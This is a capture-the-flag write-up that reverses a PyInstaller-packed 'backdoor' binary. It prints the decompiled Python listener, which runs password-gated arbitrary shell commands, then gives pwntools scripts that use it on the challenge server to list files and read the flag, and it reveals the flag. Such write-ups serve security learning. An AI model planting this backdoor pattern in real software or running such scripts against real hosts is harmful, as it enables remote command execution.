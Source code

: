 # Cyber Apocalypse 2021 Backdoor Write Up

## Details:
Points: 300

Jeopardy style CTF

Category: Reverse Engineering

Comments:

```
One of our friends has left a backdoor on the extraterrestrials' server. If we manage to take advantage of it, we will be able to control all the doors and lock them outside or open doors to facilites we have no access.
This challenge will raise 43 euros for a good cause.
```

## Write up:

After extracting the .zip file we see a file named bd. Running strings on it we see some interesting stuff:

```
strings bd | grep python

b_asyncio.cpython-38-x86_64-linux-gnu.so
b_bz2.cpython-38-x86_64-linux-gnu.so
b_codecs_cn.cpython-38-x86_64-linux-gnu.so
b_codecs_hk.cpython-38-x86_64-linux-gnu.so
b_codecs_iso2022.cpython-38-x86_64-linux-gnu.so
b_codecs_jp.cpython-38-x86_64-linux-gnu.so
b_codecs_kr.cpython-38-x86_64-linux-gnu.so
b_codecs_tw.cpython-38-x86_64-linux-gnu.so
b_contextvars.cpython-38-x86_64-linux-gnu.so
b_ctypes.cpython-38-x86_64-linux-gnu.so
b_decimal.cpython-38-x86_64-linux-gnu.so
b_hashlib.cpython-38-x86_64-linux-gnu.so
b_lzma.cpython-38-x86_64-linux-gnu.so
b_multibytecodec.cpython-38-x86_64-linux-gnu.so
b_multiprocessing.cpython-38-x86_64-linux-gnu.so
b_opcode.cpython-38-x86_64-linux-gnu.so
b_posixshmem.cpython-38-x86_64-linux-gnu.so
b_queue.cpython-38-x86_64-linux-gnu.so
b_ssl.cpython-38-x86_64-linux-gnu.so
blibpython3.8.so.1.0
bmmap.cpython-38-x86_64-linux-gnu.so
breadline.cpython-38-x86_64-linux-gnu.so
bresource.cpython-38-x86_64-linux-gnu.so
btermios.cpython-38-x86_64-linux-gnu.so
xinclude/python3.8/pyconfig.h
xlib/python3.8/config-3.8-x86_64-linux-gnu/Makefile
&libpython3.8.so.1.0
```

This means that this file is a python .pyc compiled with pyinstaller. This was confirmed by running binwalk and seeing a zip archive inside containing the pyinstaller includes. Since this is a linux executable and not an exe we cannot just use the basic tools. First we need to extract the .pyc data. This is done by running:

```
objcopy --dump-section pydata=pydata.dump ./bd 
```

We can then run one of the many pyinstaller extractors, I used pyinstxtractor, https://github.com/extremecoders-re/pyinstxtractor (make sure to use the python version it was compiled with):

```
python3.8 ./pyinstxtractor/pyinstxtractor.py pydata.dump

[+] Processing pydata.dump
[+] Pyinstaller version: 2.1+
[+] Python version: 38
[+] Length of package: 6994886 bytes
[+] Found 45 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: bd.pyc
[+] Found 223 files in PYZ archive
[+] Successfully extracted pyinstaller archive: pydata.dump

You can now use a python decompiler on the pyc files within the extracted directory

```

We now see the bd.pyc file, after decompilation we get:

```python
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    client, addr = sock.accept()
    data = client.recv(32)
    if len(data) != 32:
        client.close()
    elif data.decode() != md5('s4v3_th3_w0rld').hexdigest():
        client.send('Invalid')
        client.close()
    else:
        size = client.recv(1)
        command = client.recv(int.from_bytes(size, 'little'))
        if not command.startswith('command:'):
            client.close()
        else:
            command = command.replace('command:', '')
            output = check_output(command, shell=True)
            client.send(output)
            client.close()
```

We see that we need to connect, then send the md5, then the length of whatever command, then "command:\<command to send\>".

So the first script we send ls to see what is on the system:

```python
# import pwntools
from pwn import *

# command to send
command = 'command:ls'

# connection
s = remote("138.68.179.198", 30791)

# send the md5
s.send('e2162a8692df4e158e6fd33d1467dfe0')

# send length of command
s.send(chr(len(command)))

# send command
s.send(command)

# read responses
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
print(s.recvline())
```

The response from this is:

```
[+] Opening connection to 138.68.179.198 on port 30791: Done
b'bd.py\n'
b'bin\n'
b'dev\n'
b'etc\n'
b'flag.txt\n'
b'home\n'
b'lib\n'
b'media\n'
```

We then read the flag:

```python
# import pwntools
from pwn import *

# command to send
command = 'command:cat flag.txt'

# connection
s = remote("138.68.179.198", 30791)

# send the md5
s.send('e2162a8692df4e158e6fd33d1467dfe0')

# send length of command
s.send(chr(len(command)))

# send command
s.send(command)

# read responses
print(s.recvline())
```

```
[+] Opening connection to 138.68.179.198 on port 30791: Done
b'CHTB{b4ckd00r5_4r3_d4nG3r0u5}\n'
```